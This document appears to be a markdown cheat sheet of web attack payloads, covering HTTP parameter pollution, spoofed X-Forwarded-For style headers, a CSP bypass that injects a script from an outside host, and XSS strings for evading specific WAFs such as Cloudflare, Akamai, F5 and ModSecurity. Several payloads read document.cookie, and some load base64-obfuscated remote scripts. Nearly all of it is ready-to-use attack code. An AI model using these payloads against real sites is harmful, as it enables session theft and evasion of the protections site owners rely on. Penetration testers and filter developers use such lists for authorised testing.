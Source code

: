 **Using HTTP Parameter Pollution**
```
http://target.com/something.xxx?a=val1&a=val2
ASP.NET a = val1,val2
ASP a = val1,val2
JSP a = val1
PHP a = val2
```

**Implementing HTTP Headers**
```
X-Forwarded-For: 127.0.0.1
X-Remote-Ip: 127.0.0.1
X-Originating-Ip: 127.0.0.1
X-Remote-Addr: 127.0.0.1
```

**CSP Bypass**
```
d=document;f=d.createElement("iframe");f.src=d.querySelector('link[href*=".css"]').href;d.body.append(f);s=d.createElement("script");s.src="https://rhy.xss.ht";setTimeout(function(){f.contentWindow.document.head.append(s);},1000)
```

**XSS-protection bypass**
[Reference: Browser's XSS Filter Bypass Cheat Sheet](https://github.com/masatokinugawa/filterbypass/wiki/Browser's-XSS-Filter-Bypass-Cheat-Sheet)
```
<embed/:script allowscriptaccess=always src=example.com/x.js>
```

**Cloudflare Bypass**
```
<a"/onclick=(confirm)()>click
<a href="j&Tab;a&Tab;v&Tab;asc&NewLine;ri&Tab;pt&colon;\u0061\u006C\u0065\u0072\u0074&lpar;this['document']['cookie']&rpar;">X</a>
<--`<img/src=` onerror=confirm``> --!>
```

**Akamai bypass**
```
<d3v/onauxclick=[2].some(confirm)>click
<a href="javascript:pro\u006dpt(document.cookie)">L1k0r</a>
?"></script><base%20c%3D=href%3Dhttps:\mysite>
```

**Generic WAF Bypasses**
```
<!" (without quotes) before: <!<script>alert(1)</script>
anythinglr00%3c%2fscript%3e%3cscript%3ealert(document.domain)%3c%2fscript%3euxldz
BLOCKED <body/onload PASSED <body/onpageshow  BLOCKED =alert() PASSED =(alert)()

Notification.requestPermission(x=>{new(Notification)(1)})

<svg/onload=eval(location.hash.slice(1))>#with(document)body.appendChild(createElement('script')).src='//DOMAIN'
[base64 bypass firefox]: #with(document)body.appendChild(createElement(/script/.source)).src=atob(/Ly9icnV0ZWxvZ2ljLmNvbS5ici8y/.source)

[FINAL/src=brutelogic.com.br/2]: <svg/onload=eval(atob(URL.slice(-148)))>#d2l0aChkb2N1bWVudClib2R5LmFwcGVuZENoaWxkKGNyZWF0ZUVsZW1lbnQoL3NjcmlwdC8uc291cmNlKSkuc3JjPWF0b
2IoL0x5OWljblYwWld4dloybGpMbU52YlM1aWNpOHkvLnNvdXJjZSk=
```
[Reference: Avoiding XSS Detection](https://brutelogic.com.br/blog/avoiding-xss-detection/)

**MORE: Bypassing WAFs in Wild**
```
Name: Wordfence
Payload: <a/href=javascript&colon;alert()>click

Name: Barracuda
Payload: <a/href=&#74;ava%0a%0d%09script&colon;alert()>click

Name: Comodo
Payload: <d3v/onauxclick=(((confirm)))``>click

Name: F5
Payload: <d3v/onmouseleave=[2].some(confirm)>click

Name: ModSecurity
Payload: <details/open/ontoggle=alert()>

Name: dotdefender
Payload: <details/open/ontoggle=(confirm)()//
```
